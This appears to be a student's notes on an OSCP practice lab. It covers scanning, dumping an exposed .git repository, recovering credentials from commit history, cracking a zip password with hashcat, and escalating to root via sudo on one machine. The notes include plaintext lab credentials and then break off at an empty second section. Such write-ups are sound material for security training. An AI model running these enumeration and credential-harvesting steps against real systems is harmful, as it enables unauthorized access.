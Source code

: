 # Questions 
This is the first of three dedicated OSCP Challenge Labs. It is composed of six OSCP machines. The intention of this Challenge is to provide a mock-exam experience that closely reflects a similar level of difficulty to that of the actual OSCP exam.

The challenge contains three machines that are connected via Active Directory, and three standalone machines that do not have any dependencies or intranet connections. All the standalone machines have a local.txt and a proof.txt, however the Active Directory set only has a proof.txt on the Domain Controller. While the Challenge Labs have no point values, on the exam the standalone machines would be worth 20 points each for a total of 60 points. The Active Directory set is worth 40 points all together, and the entire domain must be compromised to achieve any points for it at all.

All the intended attack vectors for these machines are taught in the PEN-200 Modules, or are leveraged in the PEN-200 Challenge Labs 1-3. However, the specific requirements to trigger the vulnerabilities may differ from the exact scenarios and techniques demonstrated in the course material. You are expected to be able to take the demonstrated exploitation techniques and modify them for the current environment.

Please feel free to complete this challenge at your own pace. While the OSCP exam lasts for 23:45 hours, it is designed so that the machines can be successfully attacked in much less time. While each student is different, we highly recommend that you plan to spend a significant amount of time resting, eating, hydrating, and sleeping during your exam. Thus, we explicitly do not recommend that you attempt to work on this Challenge Lab for 24 hours straight.

We recommend that you begin with a network scan on all the provided IP addresses, and then enumerate each machine based on the results. When you are finished with the Challenge, we suggest that you create a mock-exam report for your own records, according to the advice provided in the Report Writing for Penetration Testers Module.

# 
sudo nmap -T4 -A 192.168.162.141-145
[ip-scanning.md]

# CRYSTAL
# Found there is a .git on the server. Lets download and find what can we find from the server
wget -r -np http://192.168.162.144/.git/

git show
...
diff --git a/configuration/database.php b/configuration/database.php
index 55b1645..8ad08b0 100644
--- a/configuration/database.php
+++ b/configuration/database.php
@@ -2,8 +2,9 @@
 class Database{
     private $host = "localhost";
     private $db_name = "staff";
-    private $username = "stuart@challenge.lab";
-    private $password = "BreakingBad92";
...

git log
# Found there is alot changes, 
git show 80ad5fe45438bb1b9cc5932f56af2e9be7e96046
...
+    private $host = "localhost";
+    private $db_name = "staff";
+    private $username = "dean@challenge.pwk";
+    private $password = "BreakingBad92";
...
# Since we have both two credentials now lets try to access into the server
# Only 1 user manage to access it
ssh stuart@192.168.162.144 
cat local.txt

# In the opt/backup found sitebackup1.zip file
# Lets download to our local use scp
scp sitebackup*.zip kali@192.168.45.165:/home/kali/Desktop/OSCP-A

# For the sitebackup3.zip is encrypted, the rest is broken
# Lets extract the password and brute force it
zip2john sitebackup3.zip > sitebackup3.hash
hashcat --help | grep -i "zip"
  13600 | WinZip      | Archive
# References https://www.reddit.com/r/computerforensics/comments/9rezdi/help_cracking_zip_hash/?rdt=50409
code sitebackup3.hash
code zip.hash
hashcat -m 13600 zip.hash /usr/share/wordlists/rockyou.txt
...
codeblue                                             
Session..........: hashcat
Status...........: Cracked
...

[configuration.php]
	public $dbtype = 'mysql';
	public $host = 'localhost';
	public $user = 'joomla';
	public $password = 'Password@1';
	public $db = 'jooml';
	public $dbprefix = 'o83rl_';
    public $secret = 'Ee24zIK4cDhJHL4H';
	public $mailfrom = 'chloe@challenge.lab';
	public $fromname = 'Challenge Lab';
	public $sendmail = '/usr/sbin/sendmail';

# Receive the DB user joomla and chloe, lets try to su chloe
chloe@oscp:/opt/backup$ sudo -l
User chloe may run the following commands on oscp:
    (ALL : ALL) ALL
# Now we got the root user
root@oscp:~# cat proof.txt

# HERMES




